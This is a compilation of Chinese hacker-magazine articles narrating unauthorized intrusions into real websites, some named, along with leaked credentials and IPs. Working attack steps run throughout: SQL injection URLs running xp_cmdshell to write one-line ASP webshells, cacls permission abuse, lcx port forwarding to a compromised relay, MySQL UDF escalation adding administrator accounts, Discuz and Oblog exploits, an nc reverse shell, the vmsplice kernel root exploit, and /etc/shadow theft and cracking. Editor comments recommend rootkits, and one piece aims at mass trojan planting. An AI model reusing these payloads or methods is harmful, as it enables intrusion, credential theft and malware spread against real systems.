strConnect="provider=sqloledb;Data Source=219.84.165.20;Initial Catalog=bbs;User ID=webuser;Password=..."
```


登录 webshell，找到数据库连接文件（图6），可以看到数据库连接相关字段与账号信息。

## 一个人的战争

数据库服务器是 219.84.165.20，是论坛的数据库，但不确定里面还有没有其它数据库。我们使用企业管理器连接 .20 这台数据库，在里面发现了 RYL_Users 数据库（图7）。


双击进入时发生了权限不足（图8）。随后继续尝试常见账号密码（如 20 的 3389、youxi、administrator 等）仍失败，于是转向从站点与数据库连接信息入手。


在注册账号页面跳转到 bank.i-youxi.com，推测数据库账号密码可能在该站点。ping 得到 IP 为 219.84.165.170，与主站在同网段，使用规律密码登录成功（图9）。


进入后连接 webshell，查找数据库连接文件并打开（图10）。

```asp
Set cc = server.CreateObject("Ten_EnDe.EnDe")
Set connm=Server.CreateObject("ADODB.Connection")
connm.Open cc.decode("...")

（数据库连接信息被 cc.decode 加密）
```

在 219.84.165.170 的 system32 目录找到 decode 相关组件，继续分析其加密方式。打开企业管理器后看到 .20 的注册，进入 RYL_Users 并找到 usertbl（图12）。


右栏继续描述：重新使用 .170 连接 .20 后可嗅探到密码（图13），并继续追踪游戏数据与装备库所在主机。


通过命令行继续排查，使用 `net user`、`netstat -an` 等命令，发现多台主机与 .20 的 1433 端口连接关系（图14）。

```bash
net user
netstat -an
```


文中分析 .35、.40、.45 与 .20 的关系，推测装备和级数数据库可能位于这些服务器之一。进一步在 .45 上找到相关数据（图15），并提到可直接修改部分字段（如 varbinary 数据需进一步处理）。


又在哪台电脑上呢？问题又来了。

我无目的地在 .45 数据库里面转，这时发现有个 AdminTool 的库，打开看了下，找到了 tbToolAdmin 的表，内容如图16所示。

里面有账号和密码，还有 IP 地址。这个是 GM 账号？还是别的？我发现 IP 中 219.84.165.36 是同网段的。

不管是什么账号和密码，先登录 .36 看看再说。使用账号 youxiryl 和密码 needmoney)#+ 登录成功，在里面转了转，发现 C 盘下有个 AdminTool 目录（图17）。

双击进入 AdminToolClient.exe，提示输入账号密码，输入 redsynn 和 asdf，成功登录！恍然大悟，这就是传说中的 GM 工具！换个账号登录，显示非法 IP 连接。原来数据库中的 IP 是账号指定的登录地址！看来 .36 就是 GM 用的电脑了。换回 redsynn，找个用户账号测试一下这个 GM 工具（图18）。

装备也可以自己刷了，哈哈，终于都搞定了。至此入侵全部结束，彻彻底底入侵了台湾神话的官方网站。


## 小编点评

作者挺聪明的，可以从“!$#”上跟 IP 联系起来。话说这可是几年前我维护网吧时候用的小技巧了。不过后面那个 cc.decode 明显很简单，ADODB 对象的 .open 方法是不可能认识 CC 的加密方式的，并且 decode 明显就是解密的意思。也就是说连接字符串是先被 cc.encode 加密成你看到的样子，然后再在这里用 cc.decode 解密并执行，所以你只需要在这里写 `response.write cc.decode("ooxx and ooxx")` 就可以在 ASP 页面输出被加密的字符了，没必要去研究 DLL 文件，更何况 DLL 文件基本没办法反编译看出里面的加密过程。

## 入侵娱乐网站之另类提权

这日十分无聊，就和同学聊了起来。他说在 QQ 上认识一个人，是个网站管理员，让我帮忙看看能不能进入，我就答应了下来。随后看了一下网页，网页是 HTML 静态的，利用旁注得到服务器上有五个域名（图1）。


我随手点开一个网站，原来是动态 ASP 的，直接请出工具“啊D”进行检测，发现了注入点（图2），直接猜解，得到了账号和密码（图3）。

但是使用“啊D”检查出来的后台页面却是一个论坛的，我试了半天也没能进入（图4）。

只能把希望寄托在 GOOGLE 上面了，还好 GOOGLE 不负所望，终于得到了地址（图5）。我使用得到的账号和密码也成功进入了后台，直接上传 CER 后缀名的小马，成功上传（图6），然后在 IE 中访问，小马显示了出来（图7），然后就是上传我们的大马了。


服务器对于权限的设置还不算太 BT，除了 D 盘外都可以浏览。刚开始时我还以为是管理员设置的呢，进入之后才知道我猜错了，根本就没有 D 盘。找到 Serv-U 的目录，修改 ServUDaemon.ini 文件，没有权限修改（资料之中的事），使用自带的 ASP 版 Serv-U 进行提权也没有提升成功，我又换了一个木马还是没有成功！在其它网站目录得到了 MSSQL 数据库连接的用户名和密码，1433 端口只对内网开放，不对外网开放，使用 ASP 木马带的连接工具连接成功（图8）。

但当我执行 `net user` 命令时，却出现了如图9所示的提示（注：下面这张图，是我恢复成功后的）。我到 GOOGLE 上搜索了一下解决的方法，使用以下命令可以启动它，在执行者句里依次执行：


```sql
USE master
EXEC sp_configure 'show advanced options', 1
RECONFIGURE WITH OVERRIDE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE WITH OVERRIDE
EXEC sp_configure 'show advanced options', 0
```

重新执行 **net user** 命令，成功了，但是执行 **net user xxx xxx /add** 命令却没有成功……

我看了看时间，已经凌晨一点多了……成功了，连接对方的 3389 端口，按五次 Shift 键成功返回了 CMD 窗口（图12）。


## Discuz6.0.1 UC 最新漏洞大体验

黑侠（Black Mask）

Discuz! 论坛是国内使用非常普及、也是深受大家喜爱的一款论坛程序……今天我要介绍的这个漏洞……

我们要如何寻找存在漏洞的论坛呢？可以打开 GOOGLE 或百度，以“Powered by Discuz! 6.0.1 UC”为关键字进行搜索……


下载一个 apache2 + mysql5 + php5 三合一的安装起来就可以了……然后在 IE 里打开 http://127.0.0.1/phpmyadmin，如图3。


再打开 phpmyadmin 所在的目录，找到其中的 config.inc.php 文件，修改里面的几个内容，如图4。host 后面更改成对方的域名或 IP 地址，user 后面是用户名，password 后面是密码，格式和那些标点千万不要弄错了，最后保存。我们重新打开 IE，输入 http://127.0.0.1/phpmyadmin，如图5。


哈哈，连接成功了，激动啊！这个页面先不要关闭，我们再打开 http://www.****.cn 这个论坛，注册一个新用户，用户名为 root，密码为 1234567，如图6。最后我们将这个用户名通过对方的 MYSQL 数据库修改几个用户的参数，来达到将其提升为管理员的目的，我们现在已经离成功越来越近了。

注册成功了，接着回到刚才那个 phpmyadmin 管理页面，找到 cdb_members 这个用户表，打开它，再找到我们刚才注册的那个 root 用户名，如图7。点编辑用户名 root，将 gender 改为 1，adminid 改为 1，groupid 改为 1，最后执行，如图8。


刷新一下，打开刚才的那个论坛，看看是不是已经成为管理员了，系统设置出来了哦，如图9。点“系统设置”，进入后台，输入密码 1234567，登录成功，如图10。


在左侧的“界面风格”中找到“模板编辑”，选择“默认模板系统”，路径为 ./templates/default，如图11。再点后边的“详情”，点击“customfaq.lang.php 编辑”，在这里我们可以直接编辑大马、小马或插入 PHP 一句话木马，我就直接写入了大马。注意，事先最好将 customfaq.lang.php 内容 COPY 出来保存好，如图12。


最后提交，编辑成功，打开地址 http://www.****cn/templates/default/customfaq.lang.php，我们马上出来了吧，如图13。


我们重新找一个目录上传一个 ASPX 大马（对方服务器也支持 ASPX），因为刚才是更改默认模板 customfaq.lang.php 文件，此时论坛打开会出错，管理员会发现的，所以我们赶紧去后台将 customfaq.lang.php 模板内容改回来。打开新的大马，看看能不能执行命令“netstat -na”，如图14。

成功执行了命令，并且 3389 是打开的，这倒是省事了。我们再输入命令“net user root$ 5201314 /add”，然后再执行“net user root$”看看，如图15。

没有回显，说明添加用户没有成功，提权失败，看来我们要换一种方法提权了。大家还记得我们前面得到的 mysql 的用户名和密码吗，而且权限还是 ROOT 最高权限。好了，上传一个 mySQL 提权的文件，如图16。


打开后，输入账号、密码、数据库名等信息，然后进行提交，连接 MYSQL 成功。对于“导出到此路径”，Win2000 系统是 C:\Winnt\udf.dll，Win2003 系统是 C:\Windows\udf.dll，如图17。


填好后点击“导出到此目录”，成功导出。我们再来执行下面几条命令，就可以完成添加用户的操作了：`create function cmdshell returns string soname 'udf.dll';`（图18），`select cmdshell('net user root$ 5201314 /add');`（图19），成功添加 root$ 用户。`select cmdshell('net localgroup administrators root$ /add');`（图20），成功将 root$ 用户加入到管理员组。

```sql
select cmdshell('net localgroup administrators root$ /add');
```

回显结果：

```text
cmdshell('net localgroup administrators root$ /add')
命令成功完成。
```


呵呵，添加用户都成功了，我们赶紧连接对方的 3389 吧，输入用户名 root$，密码 5201314，连接成功，如图21。许多时候，一个网站在代码上并不存在什么漏洞，但往往由于用户的配置不当而导致漏洞的产生，才让我们有机可乘。

## Oblog4.6 文件下载漏洞
### 简单利用

txcbg

Oblog 是一套多用户博客建站程序，用的人不少，漏洞也不少。这不，又暴出了 Oblog4.6 文件下载漏洞。由于漏洞影响版本及利用方式较简单，攻击者可通过 `attachment.asp?path=./conn.asp` 等方式下载敏感文件。

首先说下拿 webshell 的思路，我借鉴了相关文章的方法，即上传一句话木马修改后的 Oblog 数据库，恢复数据库，再把含有一句话木马的数据库备份为 asa 格式，最终拿到 webshell。由于版本差异（4.6）具体方法有所变化，下面具体说明。


漏洞利用非常简单，直接访问下载接口即可下载 conn.asp。下载后可在文件中看到数据库路径等敏感信息；若管理员密码强度较弱，可通过 md5 破解站点进行还原，进而后台获取 webshell。

`http://www.xxx.com/attachment.asp?path=./conn.asp`


既然是通过数据库插马来拿 webshell，我们就先来插马。在 Oblog4.6 数据库 oblog4.60.mdb 的表 oblog_admin 的 username 字段中直接写入一句话 `"<%execute(request('t'))%>"`，如图3。


Oblog 官方在 4 月 3 号已经推出补丁，最新版本为 Version 4.60 Final Build040403（Access）。接下来讨论 4.6 版本下拿 webshell 的具体流程。


## 一个人的战争

减肥，把一些可以删除的表删除后再压缩数据库。一开始我只留下了 oblog.admin 表，数据库是够小了，但恢复后却进不了后台……进入后台后，在“管理用户等级”的用户等级信息修改里添加一个 mdb 上传类型，并修改上传的“单一文件限制”为 2000KB（必须大于你要上传的数据库大小），如图4。

使用默认的用户名 admin 和密码 admin888 登录后台，现在系统使用的数据库就是我们插入了一句话的数据库，马上就可以拿到 webshell 了。后来备份数据库，备份目录写 inc，名称为 hackerxfiles，得到 oblog46\admin\inc\hackerxfiles.asa，一句话地址为 http://www.xxx.cn/oblog46/admin/inc/hackerxfiles.asa，使用一句话木马客户端连接成功，传个“火马”也成功了，顺利得到了 webshell，如图7、图8。再把原来的数据库恢复一下就 OK 了。


然后注册一个新用户，登录用户后台来“发表日志”，点“上传图像”按钮上传经过减肥处理、插了马的 mdb 文件，成功上传，路径为 u/2008-4/11029199464.mdb，如图5。


下面就是恢复数据库了。为了拿到 webshell 后再恢复 oblog，在使用插了马的数据库恢复前，我先备份了一下正常数据库。恢复数据库就写：../u/2008-4/11029199464.mdb，提示成功恢复，如图6。

好了，从 oblog4.6 的下载 conn.asp 到拿到 webshell 的全过程就介绍完了。由于我水平有限，拿 webshell 的过程比较麻烦，如果各位有更好的方法，也欢迎来 X 档案论坛交流。（文中涉及到作者经过千辛万苦做成的插马数据库已经收录在光盘中，名字为 oblog4.601.mdb）

## 菜鸟入侵初体验

老师说今年的中考要改为网上报名了，我看着传单上的报名网站，真想把这个网站给入侵了。由于家中的电脑没有上网，所以我从来都没有尝试过入侵网站，只能看看 X 档案来过瘾，心里早就跃跃欲试了。刚好这次机会来了，于是便跑到同学家去开始我的入侵行动。

打开啊D注入工具 V2.32，在内置浏览器里使用 Google 搜索“site:www.****.com”，不一会儿便检测到了注入点：http://www.****.com/hits.asp?id=2636，如图1。继续检测这个注入点，发现目标网站使用的是 MSSQL 数据库，而且是 DB_OWNER 权限，如图2。


接下来检测表段，结果在 sz_user 这个表里检测出了用户名和密码，如图3。我心想这应该就是后台密码了，然后使用啊D的“管理员口检测”顺利找到了后台登录页面，却发现竟然不需要用户名，如图4。


不管了，先输入密码看看，竟然提示密码错误……我这时又想，会不会是 FTP 的密码呢？话不多说，在浏览器里输入“ftp://www.****.com”，试了下刚才的用户名和密码，发现竟然进去了，如图5。怪不得登录不了后台，原来“提”错地方了。


来试试能不能使用 DB_OWNER 权限备份数据库或日志备份来得到 webshell……打开“目录导航者”这个工具，如图6。在“注入点”里填上刚啊D扫到的注入点，在“查找位置”里写上网站物理路径，在“查找目标”里我写上 Media，也就是 FTP 里的其中一个文件夹……这就说明我的猜想是正确的。

前面的猜想是正确的，现在有希望了，直接在 FTP 里上传 SHS 的一句话木马，然后结合刚才找到的路径连接上去，顺利得到了 webshell，如图8。


由于时间关系，我就没有继续弄下去，都快中考了，应该以学习为重。网络虽然很精彩，但切勿沉迷其中，玩物丧志！（文章中涉及到的啊D注入工具 V2.32、目录导航者以及 SHS 的一句话木马，已经收录在光盘中）

## ASP.NET 菜鸟入侵台湾站点

一次在渗透群里看到小天同学放出了一个被她挂了 txt 的台湾站点，看了下发现是个 ASP.NET 的整站系统。问了一下情况，据说是权限设置得有点 BT，一直拿不到 webshell。因为之前曾经看过一些关于 aspx 的注入教程，正好可以用来练练手，于是就有了下面的文章。

### 一、注入检测

随便打开一个带有参数的链接地址，在地址后加入单引号，立刻出现了错误（图1）。接着提交  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19' and (select @@version)>0 and ''='`，  
爆出了 MSSQL SERVER 的版本，确定服务器使用的是 ASP.NET + MSSQL SERVER 架构（图2）。


这下好办了，依次提交  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19' and db_name()>0 and ''='`  
和  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19' and system_user>0 and ''='`，  
得到了数据库名 `newkuai` 和当前数据库用户 `sa`（图3）。

关于 sa 用户，大家都相当熟悉了吧。如果它的权限是默认设置，那可是相当高的，可以调用 SQL SERVER 里所有存储过程，其中最重要的莫过于 `xp_cmdshell` 了。对于这种情况最理想的办法就是利用 `xp_cmdshell` 添加一个管理员，然后远程登录 3389。但是现实往往是残酷的，不然小天何至于连个 webshell 都拿不下。我使用 BluePortScan 扫描了从 1 到 1000 的端口，居然什么端口都没有扫描到，十有八九是被防火墙给拦截了，没办法只好继续下去。


现在权限有了，接下来就是找到 web 路径。ASP.NET 爆网站路径比较有意思，许多没有配置好的服务器只要在 ASPX 文件前面加个“~”符号，它就会爆出找不到文件的错误，从而暴露网站的物理路径。提交  
`http://www.kuai-kuai.com.tw/~NewsDetail.aspx?id=19`，  
爆出网站路径是 `C:\Inetpub\wwwroot\web\newkuai\`。

### 二、打破权限配置

现在有了 WEB 路径，我们尝试向 WEB 目录写入文件，顺便测试一下 `xp_cmdshell` 有没有被删除。先查看下本机 IP 地址，提交  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'ipconfig > C:\Inetpub\wwwroot\web\newkuai\ip.txt'--`，  
然后通过访问 `ip.txt` 文件，就可以看到命令执行结果了。发现 `ip.txt` 成功写入的同时，也锁定了该服务器处于内网中（图4）。


接着来写入一句话小马：  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'echo ^<%25execute request("|")%25^> > C:\Inetpub\wwwroot\web\newkuai\1.asp'--`。  
再从 IE 访问 `1.asp`，成功写入了。于是尝试提交个大马，结果提示写入文件失败，我连续换了好几个目录都同样失败，应该是管理员限制了整个 WEB 目录的写入权限（图5）。


没有写入权限，意味着连文件都不能上传，造成的不便可想而知。但是没关系，它的目录不让写入，那我们就自己来创建一个拥有完全控制权的目录。先创建一个目录“hack”，然后查看其在 WEB 目录下的权限设置，依次提交：

`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'mkdir C:\inetpub\wwwroot\web\newkuai\hack'--`  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'cacls C:\inetpub\wwwroot\web\newkuai\hack > C:\inetpub\wwwroot\web\newkuai\1.txt'--`

可以看到 hack 目录默认情况下只有读取权限（图6）。

权限赋予给了 everyone，可以从图7看到“hack”目录权限的变化。接着再使用一句话木马提交数据时已经可以写入了（图8）。


接下来要用到一个 NTFS 下才能使用的权限配置命令 CACLS，命令基本用法如下：

```bash
C:\>cacls
显示或者修改文件的访问控制表 (ACL)

CACLS filename [/T] [/E] [/C] [/G user:perm] [/R user [...]]
              [/P user:perm [...]] [/D user [...]]

filename  显示 ACL
/T        更改当前目录及其所有子目录中的指定文件 ACL
/E        编辑 ACL 而不替换
/C        在出现拒绝访问错误时继续
/G user:perm  赋予指定用户访问权限
            Perm 可以是：R(读取) W(写入) C(更改) F(完全控制)
/R user   撤销指定用户的访问权限（仅当与 /E 一起使用时合法）
/P user:perm  替换指定用户的访问权限
/D user   拒绝指定用户访问
```


网上也有很多关于使用 CACLS 来进行提权的办法，但是测试后发现网上所说的命令“CACLS D: /E /T /G everyone:F”并不能通用。下面是我自己对该命令用法的一些总结。

CACLS 在只加参数 `/G` 后直接执行会出现一个“是否执行”的提示，因为我们在注入里不能输入确定，因此 cacls 往往没有执行。加入参数 `/E /G` 后将不会出现提示而直接执行，但是参数 `/E` 的作用是编辑 ACL 而不替换已赋予的用户权限，而我们本身目录里已经包含了 `everyone:R` 的权限设置，所以执行后仍然是 `everyone:R`。

在这种情况下，我们首先要使用 `/D` 参数把要赋权的用户拒绝访问，然后再执行赋权。依次提交：

`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'cacls C:\inetpub\wwwroot\web\newkuai\hack /e /d everyone'--`  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'cacls C:\inetpub\wwwroot\web\newkuai\hack /e /g everyone:F'--`

执行后成功把完全控制权限赋予。

### 三、完完全全的入侵

相信每个爱好入侵的朋友都一样喜欢渗透彻底，当然我也不例外。有了写入权限加上 SA，后面的入侵也就变得顺理成章了。先是确认服务器终端服务有启动并且端口是 3389，然后搬上大马上传端口转发工具 lcx.exe，准备将服务器的 3389 端口转发出来。因为我没有公网 IP 地址，所以再把 lcx 上传到有公网 IP 的肉鸡上进行监听。

简单说下 LCX 的转发原理和使用方法：先在肉鸡上的命令行下执行 `lcx -listen 51 880`，作用是把监听到的发往本机 51 端口的数据传送到本机 880 端口；而在台湾站点上要执行的命令格式是 `lcx -slave 肉鸡IP 51 本机IP 3389`，意思是把本机的 3389 端口传送到指定肉鸡的 51 端口上。我们只需要在肉鸡上用远程桌面连接本地的 880（127.0.0.1:880）端口，就可以登录到台湾服务器上了。

提交  
`http://www.kuai-kuai.com.tw/NewsDetail.aspx?id=19';exec master.dbo.xp_cmdshell 'C:\Inetpub\wwwroot\web\newkuai\lcx.exe -slave 222.240.166.xxx 51 192.168.1.2 3389'`  
来执行 lcx 进行端口映射，最后利用自己添加的管理员帐号成功登录到了台湾站点上（图9）。至此，本次入侵就顺利结束了。（责任编辑：丛林）

## 榨干 Webshell 中的最后一滴血

逍遥复仇 / 江厚来

一好友发给我一个 webshell，让我帮他提权好进行批量挂马。对于挂马这种缺德事，我历来都是非常反对的，但介于朋友关系，最后还是勉强答应帮他了。

### 一、准备

既然要批量挂马，就要找一个网站较多的虚拟服务器。我在浏览器打开 `www.myipneighbors.com`，然后进行查询，不出所料，这台服务器上就存在 130 个网站，如图1。但我有种不祥的预感，这台服务器的设置一定很变态，要不然我那朋友也不会来找我了。

一试，果然就是网站有修改权限，但访问量少得可怜，就算挂上了马，约管理员也不知道要等到猴年马月才行。服务器共开放了三个端口，分别是 21、80、3306，如图2。我们来分析一下，现在能使用的只有 21 和 3306 端口。打开 cmd，使用 ftp 连接了一下对方 IP 地址，发现使用的是微软自带 FTP，基本上想利用 FTP 来提权是没戏了，如图3。我在 webshell 也没有找到 php.ini 文件。一般来讲，像这样变态的服务器，小菜们就只有放弃了。


图1


图3

### 二、旁注

正准备回复让好友另请高明时，无意中点到了系统帐号，发现每个用户都对应了一个域名，如图4。真有意思，很明显是……


图2


图4

果然，在 webshell 里试了试，所有盘都不能浏览，cmd 组件也被删除了，终端端口没有开启，注册表也无法读取，唯一有用的就是连接 FTP。我就想能否在这方面下点工夫呢？说干就干，新建一个文本文档，把所有用户复制粘贴过去，然后再使用“查找—替换”功能将多余内容替换为空，并保存为 user.dic，如图5。

从工具包里找出 X-SCAN，选择“设置”下的“扫描参数”，打开“扫描参数”设置对话框，在“指定 IP 范围”中填入服务器 IP 地址 61.236.***.80，如图6。再切换到“全局设置”下的“扫描模块”选项，在这里只勾选“FTP 弱口令”，如图7。


然后再切换到“插件设置”中的“字典文件设置”选项，在“FTP 用户名字典”里选择刚才保存的 user.dic 文件，如图8。确定设置后就可以开始扫描了。


一杯茶的工夫就扫出了四五个弱口令，如图9。因为许多安全意识不太强的网站管理员为了方便管理，通常都会将密码设置得过于简单，我们钻的就是这个空子。随便找一个用户使用 FlashFXP 进行连接，如图10。然后上传一个 asp 木马或者上传一个反弹木马之类来让管理员运行，相信这些都很容易明白了。我就上传了一个 asp 木马，如图11。


可能有些朋友会问，上传了木马后怎么知道具体是在哪个网站呢？这个好办，使用扫描到的用户名与刚开始在 http://www.myipneighbors.com/ 查询到的域名相对应，或者直接下载它的首页文件 index.asp 到本地，将其打开查找 title 中的标题，使……用 baidu 进行搜索等，方法有很多的。

### 四、总结

虽然直到最后也未能拿下服务器的最终权限，但多少也起到了批量挂马的目的，最重要的是入侵时思路一定要灵活。最后再一次提醒管理员，一定不要将密码设置得过于简单，否则你会后悔的。

> （文中涉及到的工具 X-SCAN 已经收录在光盘中）

## 从别人邮箱里到自己的 Webshell


这天没什么事，ninanboy 大哥就叫我把我们学校的网站地址发给他，不一会儿他就把学校的后台地址和在线编辑器的后台地址发给了我……以下就是我检测的全过程：打开首页地址 http://www.xxxx.net/，后台则是挂在首页的 http://www.xxxx.net/xxx/admin.asp。尝试了 "'or'='or"、admin888、123456 等很多密码登录，均无果。


图1

打开一个页面，在地址后面添加单引号 http://www.xxxx.net/jwxx/news_view.asp?typeid=16&id=4204'，返回了参数错误提示信息，看来是做了防注入处理。继续浏览网站，找到了一个表格下载页面，如图2。


图2


图3

随便点击其中的一个链接，浏览器左下角状态栏可见下载地址类似 http://www.xxxx.net/c/webeditor/UploadFile/2008320...doc，这说明 eWebEditor 在线编辑器可下载格式地址。继续尝试后台 http://www.xxxx.net/ewebeditor/admin_login.asp，默认用户 admin 和默认密码 admin888 登录失败。既然后台路径是默认的，就进一步查看默认数据库路径。

在浏览器中输入默认数据库路径 http://www.xxxx.net/eWebEditor/db/eWebEditor.mdb，成功下载。再用 MDB 工具查看，得到加密密码的 MD5 串及用户名信息（如 admin888 等），据此进行后续破解与验证。

## 一个人的战争


| S_IsSys | S_FileExt | S_FlashExt |
|---|---|---|
| 1 | rar\|zip\|exe\|doc\|xls\|chm\|swf |  |
| ... | ... | ... |
| 0 | rar\|zip\|exe\|doc\|xls\|chm\|swf\|aaspsp |  |

在已下载的 MDB 数据库里翻了翻，终于让我看到了作案的痕迹……我在查看表 eWebEditor_Style 的时候，无意间看到了字段 S_fileext 的一行内容为：gif\|jpg\|jpeg\|bmp\|aaspsp\|asp\|asa。

这也让我想到了一个可以尝试一下的思路：在没有 admin 的 cookies 的情况下访问在线编辑器页面并进行上传。如果我们可以浏览到能够上传 asp 类型的在线编辑器风格，那我们不就可以拿到 WEBSHELL 了吗？随后通过修改 style 参数（如从 s_light1 改为 standard1）构造上传链接并提交，最终进入编辑界面。


## 入侵 Linux 台湾网站全过程

这天在网上发现了一个台湾网站有个注入点，于是先判断其使用的操作系统。方法很简单：提交一个不存在的页面，查看返回的 404 错误页。


从返回的信息可知，其 HTTP 服务使用 Apache，且显示为 CentOS，推测操作系统为 Linux。随后使用 pangolin 对注入点继续探测，在 Information 中获取 MySQL 版本与系统信息，并尝试 FileReader 读取 /etc/passwd；接着在 Tables 中查看大量数据表，继续寻找后台密码相关表。

不然要花很大的工夫）。点击“Columns”就能得到相应的列了，将用户名和密码的列都选中，再点击“Datas”就可以得到数据了，总算拿到管理员的密码了，如图4。


下边就是来找后台了，有时候能够得到密码却找不到后台，这种情况很让人无奈。好在这次没费什么事，直接在路径后面加一个 admin 就找到后台了，连扫描工具都没有使用。用得到的用户名和密码登录进去看了一下，发现后台界面很简陋，很像是个人编写的，相信它的安全性也好不到哪里吧，如图5。


在后台找到了上传照片的地方，很担心它会对上传文件的扩展名进行过滤，我怀着不安的心情上传了一个 phpshell，如图6。


个人编写的后台果然不怎么样，直接上传成功，得到 phpshell 了，第一件事就是先得到一个反向的 cmdshell 再说，如图7。


我们先打开自己电脑的 cmd，然后使用 nc 监听本地的一个端口（“nc -vv -l -p 监听的端口”），再在 phpshell 的“Back Connect”的“Your IP”栏输入我们的 IP 地址，在“Your Port”栏输入我们监听的端口，Use 栏使用 perl 就行，然后点击后边的“Start”按钮，成功的话，我们在本地就会得到对方反弹过来的一个 shell 了。

```bash
nc -vv -l -p <监听端口>
uname -a
id
gcc vmsplice.c -o vmsplice
./vmsplice.c
id
```

我们在 shell 里输入 `uname -a`，得知对方 Linux 系统的内核是 2.6.18 的，输入 `id`，发现权限果然很低，就是 apache 的权限，剩下的就是如何提权了。正好找到了 vmsplice 溢出的代码，它是针对 2.6.17-2.6.24.1 版本内核的。先使用 phpshell 将 vmsplice.c 上传，然后使用 gcc 进行编译：`gcc vmsplice.c -o vmsplice`。编译成功，运行 `./vmsplice.c`，出现了“#”，再执行一下 `id` 命令，可以看到我们已经是 root 权限了，如图8。

## 一个入侵的战争


后来我就在服务器里到处看了看，没发现什么有趣的东西，发现服务器开了 22 以及 3306 端口，这肯定是 SSH 和 MySQL。后来使用 last 命令查看了一下最近登录过的账户，发现 root 用户已经很久没登录过了，这样的话就算我安装了键盘记录软件，对方不登录，我也没法得到 root 的口令。反正我已经是 root 权限了，可以查看 /etc/shadow 里的内容，不如就破解一下其中的密码吧。于是我就执行 `cp /etc/shadow /tmp/shadow`，将其复制到 /tmp 目录下，再执行 `chmod +r /tmp/shadow`，也就是给该文件添加读取权限，将其使用 phpshell 下载下来。

关于 shadow 文件，我简单介绍一下：通常，/etc/passwd 文件在很大范围内都是可读的，因为许多程序需要用它来把 UID 转换为用户名。例如，如果不能访问 /etc/passwd，那么 `ls -l` 命令将显示数字 UID 而不是用户名。早期，对于拥有加密过的用户口令的可读 /etc/passwd 文件来讲，使用口令破解程序很容易猜解出账户的用户密码，这对于 UNIX/Linux 的安全性造成了非常大的隐患。后来为了解决这个问题，许多 UNIX 产品都使用了一个变通的方法，也就是影子口令文件。影子口令系统把口令文件分成了两部分：/etc/passwd 和影子口令文件。影子口令文件保存着加密的口令，而 /etc/passwd 中的 coded-password 域都被置为“x”或其它替代符号。影子口令文件只能被 root 或像 passwd 这样的 set-uid 程序在需要合法访问时读取，其它所有非授权用户都被拒绝访问。习惯上，影子口令文件保存在 /etc/shadow 中。当然也有一些系统使用可选的路径和文件名，例如 BSD 系统就把加密的口令保存在 /etc/master.passwd 文件中。

Linux 系统中的密码使用两种加密算法加密，分别是 DES 和 MD5。查看 /etc/shadow 文件，密码栏以 `$1$` 开头的为使用 MD5 算法加密，而使用 chpasswd 生成的用户密码则是使用 DES 算法加密的，它的有效位只有前八位，而 MD5 则无此限制。对于破解 UNIX/Linux 的密码，我推荐使用 John the Ripper 1.7，它是由著名的黑客组织 UCF 出品的非常著名的密码破解软件，支持 Unix、Dos、Windows、BeOS 和 OpenVMS，使用非常方便而且破解速度非常快，可以说是同类软件中最杰出的作品。我使用的是 Windows 版，以下是该工具的用法（小编注：其实关于 John1.7 的使用，我们在“黑客入门”一书中也曾经详细介绍过）：

```text
C:\john17w\john1701\run>john-mmjx
John the Ripper password cracker, version 1.7.0.1
Usage: john-mmjx [OPTIONS] [PASSWORD-FILES]
 --single
 --wordlist=FILE
 --rules
 --incremental=MODE
 --stdout[=LENGTH]
 ...
passwords [cut at LENGTH]
 --restore[=NAME]
 --session=NAME
 --status[=NAME]
 --make-charset=FILE
 --show
 --test
 --users=[-]LOGIN|UID[,...]
 --groups=[-]GID[,...]
 --shells=[-]SHELL[,...]
 --salts=[-]COUNT
 --format=NAME
 --save-memory=LEVEL
 ...
```

如果你有好的字典的话，可以使用 wordlist 参数破解。我没有合适的字典，就先使用 single 参数破解下简单的密码，如图9。


没有破解出简单的密码，那就只好使用 incremental 增强模式了，这就是纯粹的暴力破解了，如图10。


只是花了好长时间也没有破解出密码，root 的口令看来不是太弱。后来我又发现系统中有个账户与后台注入得到的某个账户用户名是一样的，我在 SSH 里使用对方的后台密码尝试登录了下，竟然进来了，如图11。


看来很多人还是做不到使用多个密码呀，最后我想说的是，只要方法得当，Linux 的入侵也不是什么难事！

## 小编点评

既然我们已经利用本地内核溢出得到了 root 权限，除了破解口令外，还可以直接添加一个拥有 root 权限的用户，或是直接将系统中的一些默认用户更改为 root 权限用户。不过，倘若管理员检测 shadow 文件的话，有可能会发现这些被更改过的账户。我想，要有效的方法就是直接上传一个 rootkit，然后给对方安装了。当然，我们也可制作其它的一些系统后门。（文中涉及到的工具 napalm、nc、本地内核溢出程序 vmsplice.c 以及 John the Ripper 1.7 已经收录在光盘中）

## Oblog 最新远程注入漏洞全接触

小3

在上期的杂志中我们已经刊登了一篇关于 Oblog 4.6 文件下载漏洞的文章，但这次要介绍的是 Oblog 最新的一个远程注入漏洞。事实上，我前些日子就已经听闻 Oblog 的 tags.asp 文件存在注入漏洞了，但因为只能使用手工进行并且利用方法有一定的限制，所以一直没有引起菜鸟的注意。但在某天的下午，突然某人公布出了该漏洞的测试工具，小菜鸟们终于又幸福地有新东西来玩了。

工具运行后的界面如图1所示，我们先按照工具中给出的关键字“Copyright by oblog.cn”在 Google 或百度中搜索使用 oblog 的博客站点，从搜索到的网址中随便选择一个，填写“攻击网址”，并选择数据库类型 ACCESS 或 MSSQL。直接点击“开始”按钮后，网页中已可爆出管理员的帐号和密码了（图2）。


看到爆出了管理员的 MD5 密码，可能大家马上想到的就是拿着密码到在线 MD5 查询网站去破解，其实这款工具已经集成了简单的密码破解功能了，大家只要按顺序点击“导入 MD5”……3）“解密 MD5”（图4），就可以破解出强度较弱的 MD5 密码了（图5）。


